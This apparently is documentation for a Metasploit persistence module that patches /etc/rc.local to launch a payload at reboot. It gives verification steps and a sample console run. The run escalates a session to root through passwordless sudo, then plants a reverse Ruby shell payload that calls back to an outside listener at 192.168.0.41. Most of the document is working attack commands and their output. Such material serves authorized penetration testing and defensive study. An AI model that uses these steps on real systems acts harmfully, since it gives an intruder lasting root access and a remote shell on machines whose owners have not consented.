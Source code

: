 ## rc.local Persistence

This module patches `/etc/rc.local` in order to launch a payload upon reboot.

> Sometimes `/etc/rc.local` is run when the network is not yet on, make sure your payload won't quit if that's the case.


### Verification

1. Exploit a box and get a **root** session (tip: try `post/multi/manage/sudo`)
2. `use exploit/linux/local/rc_local_persistence`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`


### Sample run

#### Escalate the session if needed

```
msf exploit(linux/local/rc_local_persistence) > use post/multi/manage/sudo 
msf post(multi/manage/sudo) > set session 3
session => 3
msf post(multi/manage/sudo) > run

[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] No password available, trying a passwordless sudo.
[+] SUDO: Root shell secured.
[*] Post module execution completed
```

#### Persist

```
msf post(multi/manage/sudo) > use exploit/linux/local/rc_local_persistence
msf exploit(multi/handler) > set payload cmd/unix/reverse_ruby
payload => cmd/unix/reverse_ruby
msf exploit(linux/local/rc_local_persistence) > set LHOST 192.168.0.41
LHOST => 192.168.0.41
msf exploit(linux/local/rc_local_persistence) > run

[*] Reading /etc/rc.local
[*] Patching /etc/rc.local
```
